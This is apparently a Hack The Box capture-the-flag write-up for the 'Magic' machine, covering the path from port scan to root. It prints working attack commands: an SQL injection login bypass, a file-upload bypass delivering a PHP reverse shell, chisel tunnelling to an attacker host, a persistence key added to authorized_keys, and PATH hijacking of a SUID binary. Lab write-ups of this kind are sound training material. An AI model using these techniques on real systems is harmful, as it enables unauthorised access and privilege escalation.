 ![Magic](https://labs.hackthebox.com/storage/avatars/73eebbbdfbbfd46258ea2ae7e52d9479.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [TRX](https://app.hackthebox.com/users/31190)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---







- The first step is to perform a scan of the open ports and then list the versions and technologies used on the open ports.
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.10.185 -oG scan
	/opt/extractports scan
	nmap -p22,80 -sCV -Pn 10.10.10.185 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/c924bb8b-f41d-47c7-9ee2-ef1d5f3d6ccb)

- I access the website and find a section to log in. Inside it I try with typical credentials and I can't access.
- I search for file with php extension and I manage to find “upload.php”. This fuzzing I pass it through [Caido](https://github.com/caido/caido) and I get to see the content of the page as a response. Inside the page I see that there is the Admin user.

	```python
	ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.185/FUZZ.php
	```
	
	![image](https://github.com/user-attachments/assets/f3c54b6a-7441-428c-bab0-4993e88172a9)

- I perform a brute force attack on the login panel to find the admin user password. I notice that if the password contains “sleep”, it does not show me the error message. This tells me that it may be a vulnerable panel.

	```python
	hydra  -l '' -P /usr/share/wordlists/rockyou.txt -f -v 10.10.10.185 http-post-form "/login.php:username=Admin&password=^PASS^:rong Username or P" 
	```

- With this behavior in mind, I perform some basic MySQL injection attacks and manage to find one that allows me to login as admin without knowing your password.

	```python
	'||1=1#
	```

- I find a panel that allows me to upload files. It limits me to have jpg, jpeg or png extension.
- I try to change extensions, combine them and add magic numbers at the beginning and I manage to find a way to bypass and upload malicious files.I use [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/) to test magic numbers.

	![image](https://github.com/user-attachments/assets/84b840e5-94dd-47bc-b955-632b41094486)

- I add as content a [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell) and I get an interactive console. For convenience I generate a new bash

	```python
	python3 -c 'import pty; pty.spawn("/bin/bash")'
	```

- Being www-data I search in the files of the web page and inside db.php5 I find the credentials to connect to MySQL.

	![image](https://github.com/user-attachments/assets/6dec0c67-365e-4de7-a99e-4c5e26f51120)

- The system does not have mysql installer, I share port 3306 to my machine to be able to consult the content of the DDBB.

	```python
	./chisel server --reverse -p 1235
	./chisel client 10.10.14.21:1235 R:3306:127.0.0.1:3306 &
	
	mysql -u theseus -piamkingtheseus -D Magic  -h 127.0.0.1
	```

- Inside the DDBB I find the credential to connect to the login panel at the beginning, I verify the reuse of the password with the only user of the system and I manage to become theseus.

  ![image](https://github.com/user-attachments/assets/32641266-9c0b-423b-87d6-38752162bdb7)

- I generate an ssh key to be able to connect more easily. As I am the user theseus I can read the first flag found in my working directory.

	```python
	ssh-keygen -f key
	cat key.pub >> /home/theseus/.ssh/authorized_keys
	ssh -i key theseus@10.10.10.185
	```

	![image](https://github.com/user-attachments/assets/d75da9cf-0cf4-44ba-966f-298a6682bb4f)

- I look for how the user theseus the binaries with SUID permissions and I find one that is not common, /bin/sysinfo

	```python
	find / -perm -4000 2>/dev/null
	```

- Running this binary displays a lot of information. When consulting it in detail I find a part that shows an error message. I decide to consult the calls that it makes behind and I observe that several calls are made to binaries with relative paths.
	
	```python
	ltrace /bin/sysinfo
	```
	
	![image](https://github.com/user-attachments/assets/4e673998-f6f8-4a19-ab3b-77aa7040d954)

- I focus on fdisk, I create a file with execute permissions in a directory that has permissions. As content I put it to change the binary /bin/bash to SUID. I export the path so that it starts looking for the directory that contains my exploit and when executing the sysinfo binary again I manage to change that my exploit is executed and that it changes the permissions. Thanks to this I can become root and I can read the second flag.

	```python
	#!/bin/bash
	chmod u+s /bin/bash
	
	export PATH="/tmp:$PATH"
	
	/bin/sysinfo
	
	bash -p
	```
